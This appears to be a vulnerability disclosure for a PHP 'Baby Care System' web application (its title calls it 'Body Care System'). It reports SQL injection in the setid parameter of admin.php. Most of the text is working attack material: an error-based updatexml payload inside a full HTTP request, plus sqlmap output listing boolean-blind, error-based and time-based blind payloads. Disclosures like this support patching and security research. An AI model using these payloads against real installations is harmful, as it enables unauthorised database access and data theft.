 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/theme.php

Vulnerability location: BabyCare/admin.php?id=theme&setid= //setid is Injection point

[+]Payload: setid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),1)--+ //setid is Injection point

```sql
GET /BabyCare/admin.php?id=theme&setid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),1)--+ HTTP/1.1
Host: 192.168.1.19
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7r2orfo1e9b49mg28f5ke9bdjv
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/160946471-10840cdf-abfb-4742-9a0a-4a48600b1581.png)

![image](https://user-images.githubusercontent.com/54017627/160946678-99fdf520-87c2-4716-9371-e98e8e486bfe.png)


```sql
---
Parameter: setid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=theme&setid=1' AND 4666=4666 AND 'rScZ'='rScZ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=theme&setid=1' AND (SELECT 1518 FROM(SELECT COUNT(*),CONCAT(0x7171707671,(SELECT (ELT(1518=1518,1))),0x7176717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'KBjM'='KBjM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=theme&setid=1' AND (SELECT 8964 FROM (SELECT(SLEEP(5)))SZjt) AND 'pISR'='pISR
---
```

![image](https://user-images.githubusercontent.com/54017627/160946391-781b87fe-7b80-4b1f-b3ef-38753cf17906.png)
